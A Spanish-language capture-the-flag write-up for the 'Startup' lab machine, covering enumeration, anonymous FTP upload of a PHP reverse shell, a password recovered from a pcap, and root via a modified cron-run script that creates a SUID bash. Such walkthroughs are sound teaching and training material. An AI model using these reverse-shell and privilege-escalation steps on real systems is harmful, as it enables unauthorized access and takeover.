# Write-up Startup

## Enumeracion

### Escaneo inicial

Empiezo con un escaneo para identificar puertos, servicios y posibles puntos de entrada:

`nmap -sC -sV -O -T4 IP`

Puertos encontrados:

- 21/tcp FTP - vsftpd 3.0.3
- 22/tcp SSH
- 80/tcp HTTP - Apache 2.4.18

En el servicio FTP veo que el acceso `anonymous` esta permitido.



## Explotacion

### Acceso al FTP anonimo

Me conecto al FTP como `anonymous` para ver que archivos hay disponibles:

`ftp IP`

Credenciales usadas:

- Usuario: `anonymous`
- Password: vacia

Archivos encontrados:

- `test.log`
- `important.jpg`
- `notice.txt`

Los descargo con:

`mget *`



### Revision de los archivos

Al leer `notice.txt` encuentro una referencia al usuario:

`Maya`



La imagen `important.jpg` parece interesante, asi que intento extraer informacion con herramientas como `steghide`, `stegcracker` y `binwalk`, pero no consigo nada util por esa via.



### Enumeracion web

Continuo por la parte web con una enumeracion de directorios:

`gobuster dir -u http://IP -w /usr/share/wordlists/dirb/common.txt`

Encuentro la ruta:

- `/files/`



Al entrar en `http://IP/files/` compruebo que expone el mismo contenido que estaba viendo a traves del FTP anonimo.



### Subida de una reverse shell por FTP

La clave aqui es comprobar si, ademas de leer, tambien puedo subir archivos al FTP. Tras verificar que si es posible, decido subir una `reverse shell` en PHP para conseguir ejecucion remota de comandos desde la web.

Descargo una shell desde:

`https://pentestmonkey.net/tools/web-shells/php-reverse-shell`

La descomprimo, la renombro a `shellasier.php` y edito el archivo para poner mi IP y el puerto de escucha:

`nano shellasier.php`



Despues hago lo siguiente:

1. Inicio sesion en el FTP como `anonymous`.
2. Me muevo al directorio `ftp` con `cd ftp`.
3. Subo el archivo con `put shellasier.php`.




Antes de ejecutarla, dejo un listener a la espera:

`nc -lvnp 4445`

Luego lanzo la shell accediendo al archivo desde la web:

`curl http://IP/files/ftp/shellasier.php`

Tambien se puede abrir directamente desde el navegador. Con eso consigo la reverse shell en la maquina victima.



## Post-explotacion

### Enumeracion local

Una vez dentro, reviso el sistema y encuentro varios elementos interesantes:

- El archivo `recipe.txt`, donde aparece el secreto `love`
- El directorio `/home`, donde veo al usuario `lennie`
- El directorio `/incidents`, que contiene el archivo `suspicious.pcapng`

Para analizar el `pcap`, lo copio a una ruta accesible desde la web y me lo descargo:

`cp /incidents/suspicious.pcapng /var/www/html/files/ftp/`



Abro el archivo con Wireshark y reviso una conversacion con `Follow TCP Stream`. En ese flujo aparece una password:

`c4ntg3t3n0ughsp1c3`

Por contexto, lo mas probable es que pertenezca al usuario `lennie`.



### Acceso por SSH

Pruebo las credenciales por SSH:

`ssh lennie@IP`

Password:

`c4ntg3t3n0ughsp1c3`

Y consigo acceder correctamente como `lennie`.



## Escalado de privilegios

### Revision de scripts automatizados

Dentro del home de `lennie` veo estos elementos:

- `scripts`
- `documents`
- `user.txt`

Entro en `scripts` y encuentro:

- `planner.sh`
- `startup_list.txt`

`startup_list.txt` esta vacio, asi que reviso `planner.sh`:

```bash
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

El script ejecuta `/etc/print.sh`, y por el contexto de la maquina parece que ese flujo corre con privilegios elevados. La idea entonces es modificar `print.sh` para que me deje una `bash` con bit SUID.



Edito `/etc/print.sh` y dejo este contenido:

```bash
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod u+s /tmp/rootbash
```

Despues le doy permisos de ejecucion:

`chmod +x /etc/print.sh`

Cuando `planner.sh` se vuelva a ejecutar, se creara `/tmp/rootbash` con privilegios de `root`. Entonces solo tengo que lanzar:

`/tmp/rootbash -p`

Con eso obtengo una shell como `root`.



## Resultado

Consigo acceso total a la maquina aprovechando el acceso `anonymous` al FTP para subir una `reverse shell`, despues recupero desde un `pcap` la password del usuario `lennie`, y finalmente escalo privilegios modificando un script que termina ejecutandose como `root`.

## Resumen de comandos hasta root

- `nmap -sC -sV -O -T4 IP`
- `ftp IP`
- `mget *`
- `cat notice.txt`
- `gobuster dir -u http://IP -w /usr/share/wordlists/dirb/common.txt`
- Editar `php-reverse-shell` con tu IP y puerto
- Renombrar el archivo a `shellasier.php`
- `cd ftp`
- `put shellasier.php`
- `nc -lvnp 4445`
- `curl http://IP/files/ftp/shellasier.php`
- `cp /incidents/suspicious.pcapng /var/www/html/files/ftp/`
- Analizar `suspicious.pcapng` en Wireshark con `Follow > TCP Stream`
- `ssh lennie@IP` `c4ntg3t3n0ughsp1c3`
- `cat /home/lennie/scripts/planner.sh`
- `nano /etc/print.sh`
- `chmod +x /etc/print.sh`
- `/tmp/rootbash -p`
